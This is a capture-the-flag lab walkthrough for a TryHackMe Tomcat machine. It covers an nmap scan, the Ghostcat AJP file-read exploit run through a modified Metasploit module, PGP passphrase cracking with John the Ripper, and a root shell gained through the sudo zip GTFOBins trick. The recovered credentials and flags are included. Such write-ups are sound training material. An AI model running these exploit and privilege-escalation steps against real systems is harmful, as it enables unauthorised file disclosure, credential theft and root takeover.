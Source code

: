 ### Find the services exposed by the machine
```BASH
nmap -sV -p- 10.10.119.52
```
![image](https://github.com/user-attachments/assets/843c0030-20f7-4aa6-9408-5b3c25261a22)

TCP port 8009 is open and running the Apache JServ Protocol (AJP) 1.3, while port 8080 is serving an Apache Tomcat 9.0.30 instance. This version of Apache Tomcat (9.0.30), when combined with an exposed AJP port is vulnerable to the [Ghostcat vulnerability - CVE-2020-193](https://www.exploit-db.com/exploits/49039)

<span style="line-height:0.5;">&nbsp;</span>

### Get credentials
Exploit run a Metasploit module or code that depends on the Metasploit Framework, so we have to run it in Metasploit. Before moving file to directory I had to make some fixes to work. 

Copy code to new file, for exmaple `exploit.rb`. After that create new directory for custom module:
```BASH
mkdir -p ~/.msf4/modules/exploits/multi/http
```
Move  `exploit.rb` to new directory:
```BASH
mv exploit.rb ~/.msf4/modules/exploits/multi/http/ghostcat.rb
```
Run msfconsole
```BASH
msfconsole
```
Reload all scripts
```BASH
reload_all
```
Use custom module from exploit db
```BASH
use exploit/multi/http/ghostcat
```
Set parameters and run
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```

That means the exploit successfully read the file from the remote Tomcat server via the AJP port:
![image](https://github.com/user-attachments/assets/ed1c8cf8-ae01-4e7a-af22-9cce1496c9cf)

This exploit successfully makes the AJP request, but it does not print the actual response body. Go back to directory where script sits and make few changes:
Replace this:
```RUBY
print "#{buf[idx..(idx+len)]}"
```
With:
```RUBY
content = buf[idx...(idx+len)]
print_status("File contents:\n")
print_line(content)
```
![image](https://github.com/user-attachments/assets/8bfb432d-af72-4b74-8bb0-4b29f97ef7f2)
Server responded with:
```BASH
500 Internal Server Error
Message: The requested resource [index] is not available
```
This error comes from this line in custom module.
```RUBY
{"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
```
Go back to directory where script sits and make some more changes:
Replace this:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```
With this:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "/"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```

Go back to msfconsole. Set parameters and run
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```
From the response you can see that credentials are `skyfuck:8730281lkjlkjdqlksalks`  

![image](https://github.com/user-attachments/assets/9d9d8391-1e8e-4079-96d3-beb9665c44c7)
![image](https://github.com/user-attachments/assets/1ee42b3a-bb7d-4f8a-9639-c016b6204ade)

<span style="line-height:0.5;">&nbsp;</span>

### Log in to the skyfuck account
SSH to skyfuck account.
```BASH
ssh skyfuck@10.10.149.201
```
![image](https://github.com/user-attachments/assets/b3d3f0ca-4b05-4925-bd46-1ca9a8458e55)

In skyfuck account there are two weird files: `credential.pgp` and `tryhackme.asc`
These are PGP encrypted files, which likely contain the user flag.  

![image](https://github.com/user-attachments/assets/d6526c3c-a1d9-4e02-bd78-0801d744d2e3)

Run python http server on vicitim machine.
```BASH
python3 -m http.server 8000
```

Download files on attack machine.
```BASH
wget http://10.10.149.201:8000/credential.pgp
wget http://10.10.149.201:8000/tryhackme.asc
```
![image](https://github.com/user-attachments/assets/e8924bc1-ac8c-4e27-921a-35e5a7a76071)

<span style="line-height:0.5;">&nbsp;</span>

### Crack the PGP key passphrase with John the Ripper.
Run gpg2john on the exported key.
```BASH
gpg2john secret.asc > pgp.hash
```
Run John on the hash.
```BASH
john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash
```
![image](https://github.com/user-attachments/assets/a3fe8843-6791-4c58-a713-98f8c63ace80)

The passphrase is `alexandru`. That is the passphrase protecting the tryhackme.asc, which is used to decrypt the file credential.pgp. Decrypt credential.pgp.
```BASH
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
![image](https://github.com/user-attachments/assets/74e4d93c-a1ab-420b-91b0-a1c9db65f53a)
There are credentials to new user: `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### Log in to the merlin account
Go back to terminal with skyfuck account logged in. Login as merlin.
```BASH
su merlin
```
Go to merlin's home directory.
```BASH
cd /home/merlin
```
![image](https://github.com/user-attachments/assets/87e0dbca-d8a4-4fd3-968a-2d129ad4d7c8)

user.txt flag:
<pre>THM{GhostCat_1s_so_cr4sy}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Escalate privileges and obtain root.txt
Run this command to check what merlin is allowed to run as root or with elevated privileges, without a password or under specific conditions. 
```BASH
sudo -l
```

![image](https://github.com/user-attachments/assets/fd072d8d-0b6a-416f-8017-843643002cfe)
You can run /usr/bin/zip as root without password. To escalate privileges using zip go to GTFOBins and search zip. Go to 'Sudo' section and if you can run zip as root via sudo, spawn a root shell by running:
```BASH
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
After that read root flag.
```BASH
cat /root/root.txt
```
![image](https://github.com/user-attachments/assets/c9d1a816-d330-41a0-bab0-196ec2525ba3)

root.txt flag:
<pre>THM{Z1P_1S_FAKE}</pre>
